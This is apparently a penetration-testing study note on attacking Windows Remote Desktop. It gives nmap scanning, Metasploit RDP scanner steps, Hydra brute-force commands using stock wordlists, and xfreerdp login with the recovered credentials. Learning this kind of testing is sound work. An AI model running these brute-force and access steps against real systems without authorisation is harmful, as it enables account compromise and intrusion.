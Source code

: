 # Exploiting RDP
> Remote Desktop Protocol (RPD) is a proprietary GUI remote access protocl developed by Microsoft and it is used to remotely connect to and interact with a Windows system.

RDP Default Port: `3389`
- But it can be configured to run on any other TCP port. Therefore be thorough in your port scanning and enumeration.
- Port 3389 is IANA registered for...
  - Microsoft WBT Server, used for Windows Remote Desktop and Remote Assistance connections (RDP - Remote Desktop Protocol).
  - Also used by Windows Based Terminal Server (`ms-wbt-server`).

## Contents
- [Intro](#intro)
- [Exploit Steps](#exploit-steps)
  - [1. Scan](#1-scan)
  - [2. MetaSploit RDP Scanner](#2-metasploit-rdp-scanner)
  - [3. Brute Force with Hydra](#3-brute-force-with-hydra)
  - [4. RDP Client Access](#4-rdp-client-access)
    - [xfreerdp](#xfreerdp)
    - [Remmina](#remmina)

## Intro
> RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.

- We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system. 
- And, of course, we'd like to grab the `administrator` creds if possible.

## Exploit Steps

### 1. Scan
```
nmap -sS -sV -sC -O -T4 -p- [target ip]
```
- If port `3389` is not listed in the results, look around for `ms-wbt-server` and note what port it's running on (that's RDP).
- How could you verify if RDP is running on port 3333?
  - One way is to connect to the target system using an RDP client on port 3333. You can connect, but you'll not have access without user creds.
  - You could also use the MetaSploit RDP scanner...

### 2. MetaSploit RDP Scanner
```
msfconsole
> search rdp_scanner
> use [that module]
> check and set options (target ip and port)
> run (and it should verify if RDP is running on the target port or not)
```

### 3. Brute Force with [Hydra](../../hydra.md)
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [target ip] rdp -s 3333
# or
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://[target ip] -s 3333
# or
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://[target ip]:3333
```
- `-s` : service port (if not default)
- Be very careful with your brute-force speed. You could crash the system or DoS it.
  - The `-t` (tasks) options sets the number of connects in parallel (default is 16, for reference)
  - You could set `-t 2` or `-t 3` and see if that plays nicer.  Hydra actually recommends `-t 1` through `-t 4`.
- Once you run hydra you should get some creds to test drive. To do that use...

### 4. RDP Client Access

#### xfreerdp
```
xfreerdp /u:[username] /p:[password] /v:[targetip]:3389
```

#### [Remmina](https://remmina.org/)
- Another RDP client for Linux you could use. 
